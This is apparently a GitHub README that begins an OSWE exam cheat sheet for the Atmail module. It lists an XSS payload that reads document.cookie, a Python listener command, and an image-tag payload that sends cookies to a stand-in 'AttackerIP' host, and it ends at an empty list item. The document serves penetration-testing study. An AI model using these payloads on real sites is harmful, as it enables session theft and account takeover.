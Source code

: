 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module Atmail :

1. Access and alert cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    #<script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    #python3 -m http.server
    
3. Embeded cookie steal payload in image tag<br>
    #function addImage() {<br>
    #var img = document.createElement('img');<br>
    #img.src = 'http://AttackerIP:port/' + document.cookie;<br>
    #document.body.appendChild(img);<br>
    #}<br>
    #addImage();<br>
    
4. Set cookie by web developer console<br>
    #javascript:void(document.cookie="cookiename=value");
 
5. 
    
    
